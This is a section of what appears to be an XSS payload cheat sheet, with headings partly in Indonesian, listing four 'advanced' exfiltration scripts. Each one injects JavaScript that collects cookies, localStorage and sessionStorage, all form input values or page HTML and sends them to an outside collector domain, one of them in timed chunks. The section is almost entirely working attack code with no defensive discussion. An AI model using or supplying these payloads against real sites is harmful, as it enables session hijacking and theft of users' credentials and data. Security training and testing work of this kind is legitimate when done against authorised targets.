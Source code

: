 
### 🔟 Advanced Techniques

#### Technique A: Data Chunking (untuk data besar)
```javascript
<script>
var data = document.cookie;
var chunkSize = 100;
var chunks = [];

for(var i = 0; i < data.length; i += chunkSize) {
  chunks.push(data.substr(i, chunkSize));
}

chunks.forEach(function(chunk, index){
  setTimeout(function(){
    new Image().src = 'https://eqh42jmm.xssy.uk/?part=' + 
                      index + '&data=' + encodeURIComponent(chunk);
  }, index * 1000);
});
</script>
```

#### Technique B: Exfiltrate localStorage + sessionStorage
```javascript
<script>
var data = {
  cookie: document.cookie,
  localStorage: JSON.stringify(localStorage),
  sessionStorage: JSON.stringify(sessionStorage)
};
location = 'https://eqh42jmm.xssy.uk/?data=' + 
           encodeURIComponent(btoa(JSON.stringify(data)));
</script>
```

#### Technique C: Exfiltrate Form Data
```javascript
<script>
var formData = {};
document.querySelectorAll('input').forEach(function(input){
  formData[input.name] = input.value;
});
location = 'https://eqh42jmm.xssy.uk/?forms=' + 
           encodeURIComponent(JSON.stringify(formData));
</script>
```

#### Technique D: Exfiltrate Page Content
```javascript
<script>
var content = {
  title: document.title,
  html: document.body.innerHTML.substring(0, 500),
  url: location.href
};
location = 'https://eqh42jmm.xssy.uk/?content=' + 
           encodeURIComponent(btoa(JSON.stringify(content)));
</script>
```

---